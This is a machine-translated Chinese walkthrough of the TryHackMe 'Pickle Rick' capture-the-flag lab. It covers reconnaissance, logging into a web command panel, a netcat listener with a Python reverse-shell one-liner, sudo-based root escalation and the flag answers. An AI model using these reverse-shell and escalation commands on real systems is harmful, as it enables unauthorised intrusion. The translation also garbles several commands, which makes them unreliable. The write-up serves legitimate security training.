# 尝试黑我:泡菜里克演练

> 原文：<https://infosecwriteups.com/try-hack-me-pickle-rick-walkthrough-f3378114dd7a?source=collection_archive---------1----------------------->

## 里克和莫蒂·CTF 夫妇。帮助瑞克变回人类！

你好！

这是一个简单的 CTF。

您可以在下面的链接中找到房间:

 [## 泡菜里克

### 里克和莫蒂·CTF 夫妇。帮助瑞克变回人类！

tryhackme.com](https://tryhackme.com/room/picklerick) 

我真的把这个挑战推荐给那些刚开始的人，有很多东西要学，完成它和写这篇文章让我很开心！无红利

# 任务 1 -腌制里克

为了解决这个 CTF，我们需要遵循任何渗透测试的通常步骤。

查看下面的列表，我将这个特定任务的步骤简化为 3 个阶段:

1.  侦察；
2.  剥削；
3.  特权升级。

所以…

让我们一步一步来！无红利

# 侦察

在接下来的步骤中寻找有用的信息，并记下你发现的所有有用的信息。

请注意，并不是所有的信息都真的有用，但我把它写在这里是因为这个过程可以在其他挑战中有所帮助。

**第一步:看看源代码，看看是否能找到有趣的东西。**



我们可以看到一个名为 R1ckRul3s 的用户名

省省吧！

**第二步:一直看 robot.txt.**

我们发现了一些有趣的文本，让我们记下来，看看我们以后是否可以使用它。

也许这是我们可以用的密码。



步骤 3:现在让我们运行一个目录强制。

我用的是 gobuster，但是你也可以用你喜欢的工具。

> gobuster -u http://"目标 IP "-w " word list " dir 的路径



我选择了一个小的词汇表，因为这是一个简单的 CTF，但是如果你愿意，你可以使用一些更完整的词汇表。

我们得到了目录资产，也许以后会有用。

**第四步:找到登录页面。**

既然找到了用户，大概就有登录页面了。

我手动尝试 login.php，它的作品。



现在我们可以尝试在这里登录。

# 剥削

**第五步:登录。**

让我们使用之前找到的凭据登录。

> 用户:R1ckRul3s
> 
> 密码:Wubbalubbadubdub

就是这样！我们进去了。

似乎我们发现了一些有趣的东西。直接通过站点执行外壳代码的命令面板。

可以通过运行“ls”来测试。



有一个测试文件 Sup3rS3cretPickl3Ingred.txt，似乎其中有一种成分。

让我们看看我们会发现什么。



有东西过滤一些通过网站执行的命令。

要绕过它，我们可以试着开一个反向壳。

**第六步:用命令面板打开一个反壳。**

首先，我们需要配置接收连接的服务器端，也就是我们的机器。

为此，使用 netcat 监听端口 1234。

> nc -lvnp 1234



在客户端(浏览器)将连接到我们的机器，有很多的网站，你可以选择这样做的脚本。

看看下面的链接，看看一些反向外壳脚本选项运行在命令面板上:

[https://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

我使用了 python 脚本

> python3 -c '导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s.connect(“你的 IP”，1234)；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'

记得把“python”改成现在的版本“python3”。



我们拿到了。连接已接收。



**第七步:整理文件。**

现在，我们可以打开文件，查看第一种配料。

> 卡特彼勒 Sup3rS3cretPickl3Ingred.txt



我们得到了第一个！

> **1.1——瑞克需要的第一种配料是什么？**
> 
> **答案:米先生的头发**

**第八步:寻找另一个用户。**

只是四处走走，看看你是否能找到一些原料的目录。

你会找到第二种成分的里克目录。



**第九步:猫它，找到第二种成分。**



> 1.2-瑞克需要的第二种材料是什么？
> 
> **答案:1 杰瑞撕**

# 权限提升

是时候升级权限了，看看能不能找到最后的成分作为 root。

**第十步:查看当前用户的 sudo 权限。**

> 须岛一号



看起来我们使用 sudo 拥有无限的力量。呵呵

所以我们可以和须藤成为根。

**第十一步:运行“sudo su”，成为 root。**

> 须藤素

现在我们是根了！无红利

第十二步:看看根目录。



**第十三步:Cat 3rd.txt**



我们得到了最后一种配料！

> 瑞克需要的最后一种配料是什么？
> 
> **答案:fleeb 果汁**

就是这样！无红利

感谢您的关注。

我希望这个简单的演练能对你有所帮助。

如果你看到一些错误或有任何其他提示，让我知道！=D

再见！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！